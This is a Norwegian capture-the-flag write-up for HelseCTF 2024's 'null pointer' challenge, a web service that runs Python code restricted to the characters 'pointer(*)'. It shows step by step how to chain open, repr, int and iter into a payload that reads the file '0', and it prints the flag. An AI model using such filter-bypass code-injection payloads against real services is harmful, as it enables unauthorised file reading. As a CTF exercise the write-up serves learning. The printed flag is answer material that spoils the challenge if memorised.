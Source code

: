 *Utvikler Per Ointer trenger av og til å kjøre python-programmer på webserveren sin. Derfor har han laget en veldig enkel webtjeneste for å sende inn python-programmer og returnere output:*

*Eksempelkjøring av program: curl 'http://server/?program=print(repr(repr))'*

*For å hindre misbruk er kun 10 forskjellige tegn tillatt i python-programmet: pointer(*)*

*Dessverre viser det seg at dette ikke er godt nok. Hent ut flagget i fila 0 i current directory.*

*https://helsectf2024-2da207d37b091b1b4dff-null-pointer.chals.io*

=================================================================

I denne CTF oppgaven får vi tildelt en URL for oppgaven, som kunne brukes for å kjøre kode i URLen

**https://helsectf2024-2da207d37b091b1b4dff-null-pointer.chals.io/?program=**

Vi får vite at kun 10 forskjellige tegn er tillatt i /?program=. Disse tegnene er p,o,i,n,t,e,r,(,) og *

Jeg begynte med å undersøke hvilke python built-ins som kun inneholder godkjente tegn. https://docs.python.org/3/library/functions.html

De brukbare funksjonene var altså: open(), int(), repr(), print(), iter(), i tillegg til enkelte nøkkelord som not, og in.

Deretter så jeg på hva de ulike funkjsonene vil returnere dersom de blir kallet på. Jeg kjørte ```/?program=print(int())``` og fikk "0" skrevet ut. 

Dette er navnet på filen, og helt klart en nødvendig del av koden. For å gjøre det om til en string, kan funksjonen repr brukes.

```/?program=print(repr(int()))```

Siden vi vet at filen "0" ligger i samme mappe, kan vi bruke funksjonen open() for å åpne filen

```/?program=print(open(repr(int())))```

Deretter kan vi bruke funksjonen iter() for å gjøre fil-objektet til en *iterable*

```/?program=print(iter(open(repr(int()))))```

Og til slutt har python en funksjonalitet hvor "*" kan brukes som prefiks på en iterable for å hente ut all innholdet

```/?program=print(*iter(open(repr(int()))))```

Dette hentet dermed ut flagget

```
helsectf{z3r0_p0inters_g1ven}
```
